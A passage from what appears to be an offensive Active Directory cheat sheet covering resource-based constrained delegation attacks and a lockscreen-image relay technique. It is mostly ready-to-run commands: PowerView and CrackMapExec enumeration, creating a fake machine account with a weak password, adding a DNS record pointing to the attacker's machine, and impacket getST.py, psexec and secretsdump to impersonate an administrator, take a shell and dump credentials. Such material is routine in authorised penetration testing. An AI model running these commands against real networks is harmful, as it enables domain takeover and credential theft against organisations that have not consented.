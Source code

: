 ````
- User should not be part of "Protected Users group" or accounts with the "This account is sensitive and cannot be delegated" right
```
Get-DomainUser | Where-Object {!($_.memberof -match "Protected Users")} | Where-Object {$_.useraccountcontrol -notmatch "NOT_DELEGATED"}
```

#### Impersonate any user and exploit
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right
```
getST.py <DOMAIN>/FAKE01 -spn cifs/<TARGET FQDN> -impersonate administrator -dc-ip <DC IP>
export KRB5CCNAME=administrator.ccache
python3 Psexec.py -k -no-pass <TARGET FQDN>
python3 Secretsdump.py -k <TARGET FQDN>
```

### Change lockscreen
- Requirements:
  - Low priv shell on a machine
  - An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
  - On the network, machines with WebClient running (some OS version had this service running by default or use the webclient starting trick from DTMSecurity). OneDrive, SharePoint and NextCloud also activate this on clients.
  - A DNS record pointing to the attacker’s machine (By default authenticated users can create records)
- https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation/

#### Check who can add computers to the domain
- If not already owning an account with SPN
```
(Get-DomainPolicy -Policy DC).PrivilegeRights.SeMachineAccountPrivilege.Trim("*") | Get-DomainObject | Select-Object name

Get-DomainObject | Where-Object ms-ds-machineaccountquota

cme ldap <DC IP> -d <DOMAIN> -u <USER> -p <PASS> -M maq
```

#### Create a new computer object
- https://github.com/Kevin-Robertson/Powermad
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
- If not already owning an account with SPN
```
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

python3 addcomputer.py -computer-name FAKE01 -computer-pass '123456' <DOMAIN>/<USER>:<PASS> -dc-ip <DC IP>
```

#### Create a DNS record pointing to the attacker's machine IP
- https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py
- https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1
- When the tools throw errors like `NoSuchObject` try the `--legacy` or `--forest` with `dnstool.py` or the `-Partition` parameter from PowerMad.
```
dnstool.py -u <DOMAIN>\<USER> -a add -r <HOSTNAME> -d <ATTACKER IP> <DC IP>

$creds = get-credential
Invoke-DNSUpdate -DNSType A -DNSName <HOSTNAME> -DNSData <IP ATTACKING MACHINE> -Credential $creds -Realm <DOMAIN>
````